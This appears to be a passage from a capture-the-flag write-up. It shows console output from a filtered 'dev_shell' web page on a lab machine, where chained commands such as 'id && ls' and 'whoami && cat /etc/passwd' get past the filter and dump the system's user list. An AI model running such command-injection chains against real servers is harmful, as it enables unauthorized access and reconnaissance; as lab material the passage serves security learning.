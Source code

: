 ```console
Output : Nice try skid, but you will never get through this bulletproof php code

Command : id && ls
www-data
WIP.jpg about.html contact.html dev_shell.php dev_shell.php.bak dev_shell_back.png index.html
index.html.bak lat_memo.html login.html news.html passwords.html robots.txt school_badge.png

Command : whoami && cat /etc/passwd
www-data
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
Debian-exim:x:105:109::/var/spool/exim4:/bin/false
rtkit:x:106:110:RealtimeKit,,,:/proc:/bin/false
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/bin/false
avahi-autoipd:x:108:111:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
messagebus:x:109:112::/var/run/dbus:/bin/false
usbmux:x:110:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
speech-dispatcher:x:111:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
lightdm:x:112:116:Light Display Manager:/var/lib/lightdm:/bin/false
pulse:x:113:117:PulseAudio daemon,,,:/var/run/pulse:/bin/false
avahi:x:114:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
saned:x:115:121::/var/lib/saned:/bin/false
c0rruptedb1t:x:1000:1000:c0rruptedb1t,,,:/home/c0rruptedb1t:/bin/bash
bob:x:1001:1001:Bob,,,,Not the smartest person:/home/bob:/bin/bash
jc:x:1002:1002:James C,,,:/home/jc:/bin/bash
seb:x:1003:1003:Sebastian W,,,:/home/seb:/bin/bash
elliot:x:1004:1004:Elliot A,,,:/home/elliot:/bin/bash
sshd:x:116:65534::/run/sshd:/usr/sbin/nologin
proftpd:x:117:65534::/run/proftpd:/bin/false
ftp:x:118:65534::/srv/ftp:/bin/false
```

